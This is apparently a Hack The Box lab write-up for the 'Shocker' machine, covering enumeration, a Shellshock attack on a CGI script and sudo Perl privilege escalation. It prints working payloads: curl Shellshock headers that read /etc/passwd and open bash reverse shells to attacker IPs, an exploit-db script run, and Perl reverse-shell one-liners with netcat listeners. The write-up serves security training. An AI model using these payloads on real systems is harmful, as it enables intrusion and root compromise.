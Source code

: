 # Shocker HTB, IP 10.10.10.56

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.56**

![s1](https://user-images.githubusercontent.com/15195048/93921771-e3461800-fcc5-11ea-9c1f-4603b308f9a2.png)

**2../nmapAutomator.sh 10.10.10.56 All**

![s2](https://user-images.githubusercontent.com/15195048/93921775-e3deae80-fcc5-11ea-9136-bb83c7c48c81.png)

![s3](https://user-images.githubusercontent.com/15195048/93921776-e4774500-fcc5-11ea-981f-3010e02ea3aa.png)

**3. Dirb/ Gobuster**

**dirb http://10.10.10.56/cgi-bin -X .sh,.php,.cgi**
 
  The **cgi-bin** directory is a directory stored on the server which compiles and executes (typically) perl and shell scripts, rather than store them as basic HTML docs and whatnot.
  
 ![s4](https://user-images.githubusercontent.com/15195048/93921778-e4774500-fcc5-11ea-9b12-c01ffa49b47a.png)

  
  
I found a user.sh. We will try to exploit shellshock vulnerability on the server.
CGI runs bash as their default request handler and this attack does not require any authentication that’s why most of the attack is taken place on CGI pages to exploit this vulnerability.

------------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

**1.Enumerating on port 80**


![s5](https://user-images.githubusercontent.com/15195048/93921779-e50fdb80-fcc5-11ea-9307-03456e2479ab.png)


**Image enumeration**
**wget http://10.10.10.56/bug.jpg**
**exiftool bug.jpg**

![s6](https://user-images.githubusercontent.com/15195048/93921781-e50fdb80-fcc5-11ea-915e-8c5f78ef2280.png)

Nothing here!

## 1.Exploit shellshock with curl
 
1.  **curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh**

2.  **curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.3/4488 0>&1’ http://10.10.10.56:80/cgi-bin/user.sh**


## 2.Exploit shellshock with python script

**searchsploit shellshock**
 
We get a lot of results back but the one we’re interested in is 34900.py, an Apache mod_cgi script. Before we run it let’s verify it’s a legitimate script and the parameters we need to include by reading it on the exploit db. Since it looks good let’s go ahead and copy the exploit into our root folder and try to execute it.
 
 ![s7](https://user-images.githubusercontent.com/15195048/93921783-e5a87200-fcc5-11ea-98d6-78d04d7c0807.png)

 **python Desktop/cgi.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=1337 pages=/cgi-bin/user.sh**
 
![s8](https://user-images.githubusercontent.com/15195048/93921787-e6d99f00-fcc5-11ea-83d4-88278f23a861.png)


**Notes:**
**Kill process in case of sockets in use**


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo netstat -nlp | grep 8069
ps -aux
tcp        0      0 0.0.0.0:8069            0.0.0.0:*               LISTEN      10869/python2    
sudo kill -9 10869
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 ![s9](https://user-images.githubusercontent.com/15195048/93921788-e7723580-fcc5-11ea-8f4a-cc9b610fa776.png)

 
**Interactive shell**
**python3 -c 'import pty; pty.spawn("/bin/bash")'**
In case that I wont be able to get an interactive shell I could get a reverse shell in order to be more stable.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ bash -i >& /dev/tcp/10.10.14.15/8888 0>&1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lvp 8888

![s10](https://user-images.githubusercontent.com/15195048/93921789-e80acc00-fcc5-11ea-84c5-ca5685ec2385.png)

----------------------------------------------------------------------------------------------------------------------------------------------
# Privilege escalation
**sudo -l**
 
 ![s11](https://user-images.githubusercontent.com/15195048/93921792-e8a36280-fcc5-11ea-987f-5490cf84d081.png)



## 1.GTFobins Perl
Linux for Perl resource:https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'exec "/bin/sh";'
 perl -e 'exec "tail /etc/passwd";'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 ![s12](https://user-images.githubusercontent.com/15195048/93921794-e9d48f80-fcc5-11ea-9a03-bb21ae5b5410.png)

 cat root/root.txt
 
 
## 2.Perl Reverse shell - one -Liner

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 $ sudo perl -e 'use Socket;$i="10.10.14.15";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 or

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'use Socket;$i="192.168.29.157";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Attacker:
nc -lvp 1234

 root.txt
 
